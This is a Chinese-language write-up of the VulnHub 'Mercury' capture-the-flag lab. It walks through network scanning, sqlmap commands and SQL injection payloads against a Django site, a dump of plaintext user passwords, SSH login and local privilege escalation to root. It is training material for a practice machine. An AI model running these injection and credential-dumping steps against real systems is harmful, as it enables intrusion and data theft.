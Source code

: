 ```yaml
---
title: Mercury CTF 笔记
date: 2025‑04‑21 12:09:04 +08:00
tags: [vulnhub, CTF练习, Mercury]
---
```


## 靶机信息

- **目标类型**：基础练习  
- **目标名称**：Mercury  
- **获取方式**：从 <https://www.vulnhub.com> 下载

---

## 过程

> 按时间顺序记录每一步的 **手段（Method）**、**发现（Finding）** 及 **结论 / 推测（Note）**。

### Step 1 — 发现目标 IP
- **Method**：`arp-scan`
  ```bash
  sudo arp-scan --interface=vboxnet0 192.168.56.0/24
  ```
- **Finding**：目标地址 `192.168.56.101`
- **Note**：确认虚拟机在线

### Step 2 — 端口扫描
- **Method**：`nmap`
  ```bash
  sudo nmap 192.168.56.101
  ```
- **Finding**：开放 `22/tcp`、`8080/tcp`
- **Note**：22 可能为 SSH，8080 为 Web 服务

### Step 3 — 首次浏览器访问
- **Method**：浏览器打开 <http://192.168.56.101:8080>
- **Finding**：页面仅一行文字
- **Note**：继续深挖

### Step 4 — ZAP 扫描与站点发现
- **Method**：OWASP ZAP
- **Finding**：
  - 站点基于 *Python + Django*，由 *uWSGI* 托管，且运行在 **DEBUG** 模式  
  - 发现 `sitemap.xml`，定位真实路径 <http://192.168.56.101:8080/mercuryfacts/>  
  - 发现直接数据库调用示例 <http://192.168.56.101:8080/mercuryfacts/1>

### Step 5 — TODO 页面信息泄露
- **Method**：访问 `/mercuryfacts/todo`
- **Finding**：  
  1. 目前未使用用户表认证  
  2. 数据库操作未走 Django ORM，而是直接 SQL

### Step 6 — SQL 注入检测
- **Method**：`sqlmap`
  ```bash
  sqlmap -u "http://192.168.56.101:8080/mercuryfacts/" --dbs
  ```
- **Finding**：确认三种注入方式  
  1. **报错注入**  
     ```
     .../GTID_SUBSET(CONCAT(0x7162787a71,(SELECT (ELT(5587=5587,1))),0x7171767a71),5587)
     ```  
  2. **时间盲注**  
     ```
     .../(CASE WHEN (4872=4872) THEN SLEEP(5) ELSE 4872 END)
     ```  
  3. **UNION 注入**  
     ```
     .../-9645 UNION ALL SELECT CONCAT(...)
     ```  
  获取数据库：`information_schema`, `mercury`

### Step 7 — 获取站点路径
- **Method**：利用报错注入
- **Finding**：Django 项目路径 `/home/webmaster/mercury_proj`

### Step 8 — 数据库权限枚举
- **Method**：
  ```bash
  sqlmap -u "http://192.168.56.101:8080/mercuryfacts/" --privileges
  ```
- **Finding**：用户 `dbmaster` 权限仅 `USAGE`

### Step 9 — 枚举数据表
- **Method**：
  ```bash
  sqlmap -u "http://192.168.56.101:8080/mercuryfacts/" -D mercury --tables
  ```
- **Finding**：表 `facts`、`users`

### Step 10 — Dump 用户表
- **Method**：
  ```bash
  sqlmap -u "http://192.168.56.101:8080/mercuryfacts/" -D mercury -T users -C username,password --dump
  ```
- **Finding**：明文账户
  | username  | password                      |
  |-----------|------------------------------|
  | john      | johnny1987                   |
  | laura     | lovemykids111                |
  | sam       | lovemybeer111                |
  | webmaster | mercuryisthesizeof0.056Earths |
- **Note**：尝试 SSH 登录

### Step 11 — 获取 user flag
- **Method**：SSH 登录
  ```bash
  ssh webmaster@192.168.56.101
  ```
- **Finding**：`webmaster` 登录成功  
  `user_flag_8339915c9a454657bd60ee58776f4ccd`

### Step 12 — 本地提权
- **Method**：上传 `linux-exploit-suggester`，选择可行漏洞
- **Finding**：成功获得 **root shell**

---

## 最终结果

- 获得 **root** 权限  
- 成功读取 Flag

![Flag](images/Mercury/flag.png)

